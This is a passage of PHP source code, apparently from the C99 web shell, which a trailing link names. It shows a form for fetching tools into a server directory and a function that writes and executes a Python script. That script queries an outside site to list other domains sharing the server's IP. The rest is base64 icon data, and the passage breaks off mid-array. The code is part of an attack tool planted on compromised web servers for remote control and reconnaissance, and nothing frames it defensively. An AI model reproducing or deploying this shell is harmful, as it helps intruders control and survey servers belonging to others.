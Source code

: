   $names = array_flip($tools);
  echo("&lt;b&gt;Tools:&lt;/b&gt;");
  echo("&lt;form method='post'&gt;");
  echo("&lt;b&gt;Output Directory&lt;/b&gt;&lt;br&gt;");
  echo("&lt;input type='text' name='loc' size='65' value='" . $curdir . "'&gt;&lt;br&gt;&lt;br&gt;");
  echo("&lt;select name='gf' style='align:center;'&gt;");
  foreach($tools as $tool) {echo("&lt;option value='" . $tool . "'&gt;" . $names[$tool] . "&lt;/option&gt;\n");}
  echo("&lt;/select&gt;");
  echo("&lt;br&gt;&lt;input type='submit' value='Grab'&gt;");
  echo("&lt;/form&gt;");
}
function lookup(){ // Domain lookup function
  style();
  global $servinf;
  $script = "import urllib, urllib2, sys, re
  req = urllib2.Request('http://www.seologs.com/ip-domains.html', urllib.urlencode({'domainname' : sys.argv[1]}))
  site = re.findall('.+\) (.+)&lt;br&gt;', urllib2.urlopen(req).read())
  for i in xrange(0,len(site)):
    print site[i]"; // My sexy python script
  $handle = fopen('lookup.py', 'w');
  fwrite($handle, $script);
  fclose($handle);
  echo("&lt;h4&gt;Domains&lt;/h4&gt;");
  echo("&lt;ul&gt;");
  $cmd = exec("python lookup.py " . $servinf[0], $ret);
  foreach($ret as $site){echo("&lt;li&gt;" . $site . "\n");}
  unlink('lookup.py');
}
function img($img){ // Images function
  $images = array(
  "folder"=&gt;"R0lGODlhEwAQALMAAAAAAP///5ycAM7OY///nP//zv/OnPf39////wAAAAAAAAAAAAAAAAAAAAAAAAAAACH5BAEAAA" .
  "gALAAAAAATABAAAARREMlJq7046yp6BxsiHEVBEAKYCUPrDp7HlXRdEoMqCebp/4YchffzGQhH4YRYPB2DOlHPiKwq" .
  "d1Pq8yrVVg3QYeH5RYK5rJfaFUUA3vB4fBIBADs=",
  "image"=&gt;"R0lGODlhFAAWAOMAAP////8zM8z//8zMzJmZmWZmZmYAADMzMwCZzACZMwAzZgAAAAAAAAAAAAAAAAAAACH+TlRoaX" .
  "MgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1i" .
  "ZXIgMTk5NQAh+QQBAAACACwAAAAAFAAWAAAEkPDISae4WBzAu99Hdm1eSYYZWXYqOgJBLAcDoNrYNssGsBy/4GsX6y" .
  "2OyMWQ2OMQngSlBjZLWBM1AFSqkyU4A2tWywUMYt/wlTSIvgYGA/Zq3QwU7mmHvh4g8GUsfAUHCH95NwMHV4SGh4Ed" .
  "ihOOjy8rZpSVeiV+mYCWHncKo6Sfm5cliAdQrK1PQBlJsrNSEQA7",
  "unknown"=&gt;"R0lGODlhFAAWAMIAAP///8z//5mZmTMzMwAAAAAAAAAAAAAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG" .
  "9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAABACwAAAAAFAAW" .
  "AAADaDi6vPEwDECrnSO+aTvPEQcIAmGaIrhR5XmKgMq1LkoMN7ECrjDWp52r0iPpJJ0KjUAq7SxLE+sI+9V8vycFiM" .
  "0iLb2O80s8JcfVJJTaGYrZYPNby5Ov6WolPD+XDJqAgSQ4EUCGQQEJADs=",
  "binary"=&gt;"R0lGODlhFAAWAMIAAP///8z//8zMzJmZmTMzMwAAAAAAAAAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG" .
  "9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAABACwAAAAAFAAW" .
  "AAADaUi6vPEwEECrnSS+WQoQXSEAE6lxXgeopQmha+q1rhTfakHo/HaDnVFo6LMYKYPkoOADim4VJdOWkx2XvirUgq" .
  "VaVcbuxCn0hKe04znrIV/ROOvaG3+z63OYO6/uiwlKgYJJOxFDh4hTCQA7",
  "text"=&gt;"R0lGODlhFAAWAOMAAP/////MM/8zM8z//5mZmZlmM2bM/zMzMwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACH+TlRoaX" .
  "MgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1i" .
  "ZXIgMTk5NQAh+QQBAAADACwAAAAAFAAWAAAEb/DISee4eBzAu99Hdm1eSYbZWXEkgI5sEBg0+2HnTBsccvhAmGtXAy" .
  "COSITwUGg2PYQoQalhOZ/QKLVV6gKmQm8XXDUmzx0yV5ze9s7JdpgtL3ME5jhHTS/xO3hwdWt0f317WwdSi4xRPxlw" .
  "kUgXEQA7",
  "compressed"=&gt;"R0lGODlhFAAWAOcAAP//////zP//mf//Zv//M///AP/M///MzP/Mmf/MZv/MM//MAP+Z//+ZzP+Zmf+ZZv+ZM/+ZAP" .
  "9m//9mzP9mmf9mZv9mM/9mAP8z//8zzP8zmf8zZv8zM/8zAP8A//8AzP8Amf8AZv8AM/8AAMz//8z/zMz/mcz/Zsz/" .
  "M8z/AMzM/8zMzMzMmczMZszMM8zMAMyZ/8yZzMyZmcyZZsyZM8yZAMxm/8xmzMxmmcxmZsxmM8xmAMwz/8wzzMwzmc" .
  "wzZswzM8wzAMwA/8wAzMwAmcwAZswAM8wAAJn//5n/zJn/mZn/Zpn/M5n/AJnM/5nMzJnMmZnMZpnMM5nMAJmZ/5mZ" .
  "zJmZmZmZZpmZM5mZAJlm/5lmzJlmmZlmZplmM5lmAJkz/5kzzJkzmZkzZpkzM5kzAJkA/5kAzJkAmZkAZpkAM5kAAG" .

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"